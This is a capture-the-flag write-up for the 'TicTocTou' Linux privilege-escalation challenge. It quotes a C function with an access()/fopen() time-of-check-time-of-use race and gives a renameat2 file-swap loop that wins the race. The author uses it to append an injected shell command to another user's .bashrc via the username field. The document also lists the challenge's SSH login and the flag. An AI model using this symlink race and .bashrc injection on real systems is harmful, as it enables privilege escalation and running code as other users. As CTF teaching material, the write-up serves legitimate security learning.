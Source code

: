 # TicTocTou

### Description
.--------------------------S h e l l m a t e s   I n f o s e c   W e e k--------------------------.<br>
| Challenge: [TicTocTou](./tictoctou)                                                             |<br>
| Difficulty: Medium                                                                              |<br>
| Category: Pwn                                                                                   |<br>
| Description:                                                                                    |<br>
|              Have you ever played the game named TicTocTou? Yeah, me too, I used to play it a   |<br>
|                lot during boring classes in primary school, because, you know, playing games    |<br>
|                          changes your time's perception and the class ends faster!              |<br>
|                                                                                                 |<br>
| Author's note:                                                                                  |<br>
|                Your goal is to privesc to ctf-cracked in order to read the contents of flag.txt |<br>
|                  Run 'tictoctou' and start pwning, source code is available for this challenge  |<br>
|                                 under /home/ctf-cracked/, let's do it whitebox!                 |<br>
|                       PS: ctf-cracked often logs in to the system, maybe this will help.        |<br>
|                                                gl & hf. - hfz                                   |<br>
| SSH access: ssh -p2222 ctf@3.91.133.232                                                         |<br>
| Password : shellmates                                                                           |<br>
'-------------------------------------------------------------------------------------------------'<br>
![alt challenge](./tictoctou.jpeg)

### Playing with the binary
The binary is a typical tic-tac-toe game, you play to a bot that uses randomness for it's moves, When I played the game<br>
I noticed an interesting feature where the player enters a username and a filepath and he can save the score<br>
In condition that the player owns that file<br>
```
```
Then when I did the static analyses, I found a race condition in the save_stats() function 
```C
int save_stats(char *nickname, char *filepath, int result, int num_moves) {
    time_t t = time(NULL);
    struct tm tm = *localtime(&t);

    // Check that the real user have write permissions on that file
    if (access(filepath, W_OK) != 0) {					// <== Time-Of-Check
        perror("access check failed");					
        return -1;							
    }									
									
    // Since the real user can write to that file, we proceed safely	
    FILE* f = fopen(filepath, "a");					// <== Time-Of-Use
    if (f == NULL) return -1;

    switch (result){
        case 0:
            fprintf(f, "%s TIED against brainless bot on %d-%02d-%02d at %02d:%02d:%02d! Still a boomer...\n", nickname, tm.tm_year + 1900, tm.tm_mon + 1, tm.tm_mday, tm.tm_hour, tm.tm_min, tm.tm_sec);
            break;
        case 1:
            fprintf(f, "%s WON against brainless bot on %d-%02d-%02d at %02d:%02d:%02d! Not surprising however.\n", nickname, tm.tm_year + 1900, tm.tm_mon + 1, tm.tm_mday, tm.tm_hour, tm.tm_min, tm.tm_sec);
            break;
        case 2:
            fprintf(f, "%s LOST against brainless bot on %d-%02d-%02d at %02d:%02d:%02d! What a shame to lose against pseudo randomness, go play minecraft.\n", nickname, tm.tm_year + 1900, tm.tm_mon + 1, tm.tm_mday, tm.tm_hour, tm.tm_min, tm.tm_sec);
            break;
    }

    fprintf(f, "################# Game stats #################\n");
    for (int j = 0; j < num_moves; j++) {
        if (j % 2) {
            fprintf(f, "# Brainless Bot (X) plays on case %c          #\n", history[j]);
        } else {
            fprintf(f, "# Human (O) plays on case %c                  #\n", history[j]);
        }
    }
    fprintf(f, "##############################################\n\n");

    fclose(f);

    return 0;
}
```
We can abuse the race condition to append text to a file owned by ctf-cracked, but how can we get the flag?<br>
In the description there is a hint that the user ctf-cracked logs in frequently, so we can enter shell commands as username<br>
and append it to ctf-cracked .bashrc file, then when he logs in, the commands get executed and we get the flag<br>
To win the race condition I created an empty file and a symbolic link to the .bashrc file, then I used a syscall wrapper that<br>
I remembered from watching a Liveoverflow video to exchange the names of two files<br>
```C
#define _GNU_SOURCE
#include <stdio.h>
#include <fcntl.h>
#include <stdio.h>
#include <unistd.h>
#include <sys/syscall.h>
#include <linux/fs.h>

int main(int argc, char *argv[]) {
        while (1)
        {
                syscall(SYS_renameat2, AT_FDCWD, argv[1], AT_FDCWD, argv[2], RENAME_EXCHANGE);
        }
        return 0;
}
```
I executed the rename program and played the game (a couple of times until the race condition worked) and entered</br>
"cat /home/ctf-cracked/flag.txt > /tmp/shellc0d3/flag.txt" as a username, after few seconds the user logs in and we get the flag</br>
# Flag

shellmates{T1c_T0c_T1C_tOc_@bus1nG_th3_cl0ck_4_fUn_aNd_pr0f1t}
